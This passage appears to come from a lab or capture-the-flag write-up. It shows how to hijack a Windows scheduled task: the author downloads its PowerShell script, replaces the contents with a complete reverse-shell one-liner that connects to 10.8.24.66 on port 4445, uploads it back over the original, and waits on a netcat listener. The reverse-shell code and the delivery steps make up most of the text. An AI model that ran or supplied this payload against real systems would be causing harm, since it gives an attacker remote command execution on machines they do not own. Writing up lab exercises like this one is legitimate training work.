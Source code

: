 - Looking at the script - it could be part of a scheduled task:

![image23](../resources/b1211cad775b44b584475d40a25068b4.png)

- Get the script onto Kali with:  

```bash
get PurgeIrrelevantData_1826.ps1

```
- Edit it with the following:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.8.24.66",4445);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 

```
- Couldn't remove or edit the original but I could overwrite it with put

![image24](../resources/2e4d31b964ba4abc95d393416afbf89d.png)

```bash
put PurgeIrrelevantData_1826.ps1

```
- Set up nc -lnvp 4445

- Wait for the scheduled task to run:


![image25](../resources/0be806e78fb3475a82297187d597c9e0.png)
